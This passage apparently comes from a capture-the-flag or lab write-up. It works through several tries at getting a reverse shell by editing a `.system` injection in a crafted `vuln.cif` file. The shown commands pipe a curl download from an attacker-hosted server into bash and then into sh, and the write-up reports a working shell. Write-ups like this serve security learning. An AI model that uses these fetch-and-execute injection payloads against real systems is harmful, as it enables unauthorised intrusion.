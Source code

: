 From the successful reverse shell in Python, try to access the path `/dev/shm/` and open the `error` file.\
![Check Error Message in the designated file](./images/11.png)

#### Attempt 5.2
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk 2>/dev/shm/error | bash 2>dev/shm/error2")
```
Check the error message again:\
![New error message](./images/12.png)

It shows that we have a typo to b*ash. There's a possibility that the `b` is a special character and a * is attached to it.

#### Attempt 5.3
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk 2>/dev/shm/error | sh 2>dev/shm/error2")
```
Result:\
![Shell through Bash](./images/13.png)
